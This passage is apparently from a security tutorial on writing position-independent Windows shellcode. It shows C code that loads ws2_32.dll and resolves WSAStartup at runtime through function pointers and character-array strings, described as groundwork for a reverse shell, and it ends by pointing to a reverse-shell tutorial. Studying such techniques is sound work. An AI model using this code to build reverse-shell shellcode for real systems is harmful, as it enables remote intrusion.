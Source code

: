 Once we’ve dynamically resolved those two functions, we can load other modules and API’s that reside within that module. For example, for reverse shell/network operations, we’ll use APIs within `ws2_32.dll` . Here’s how we can get the address of that DLL, along with `WSAStartup()` which is an API function needed for network operations.

{% raw %}
    //
    // Get address of ws2_32.dll
    //
    char ws2_32dll[] = { 'w', 's', '2', '_', '3', '2', '.', 'd', 'l', 'l', '\0' }; 
    LPVOID ws2_32dll_base = _LoadLibraryA( ws2_32dll );

    if( NULL == ws2_32dll_base )
    {
        // printf( "[+] Could not find ws2_32.dll!\n" );
        return 1;
    }
    
    //
    // 1. INITIALIZE SOCKET LIBRARY USING WSAStartup()
    // Dynamically resolve WSAStartUp WinAPI
    // 
    char wsastartup[] = { 'W', 'S', 'A', 'S', 't', 'a', 'r', 't', 'u', 'p', '\0' };

    int( WINAPI * _WSAStartup)
    (
        WORD      wVersionRequired,
        LPWSADATA lpWSAData
    );

    _WSAStartup = ( int(WINAPI *)
    (
        WORD      wVersionRequired,
        LPWSADATA lpWSAData
    )) _GetProcAddress( (HMODULE)ws2_32dll_base, wsastartup );

    if( NULL == _WSAStartup )
    {
        // printf( "[+] Could not dynamically resolve _WSAStartup!\n" );
        return 1;
    }
{% endraw %}

In the case of `WSAStartup`, we use a similar approach as with `GetProcAddress` and `LoadLibraryA`  to dynamically resolve the function's address:

1. Locate the Module Address: First, we obtain the absolute address of the module (`ws2_32.dll`) that contains the `WSAStartup` function, if it's not already known.
2. We declare a function pointer with a signature that matches the `WSAStartup` function, ensuring it has the correct parameters and return type as defined by the WinAPI.
3. Last we initialize the WinAPI defined int he second step using `GetProcAddress` to find the absolute address of `WSAStartup` within the module. We then cast this address to our function pointer type, allowing us to call the function dynamically at runtime.

This process can be repeated to essentially refactor code to be position independent. The follow code below is from [https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html](https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html) which shows how to program a reverse shell in C/C++.
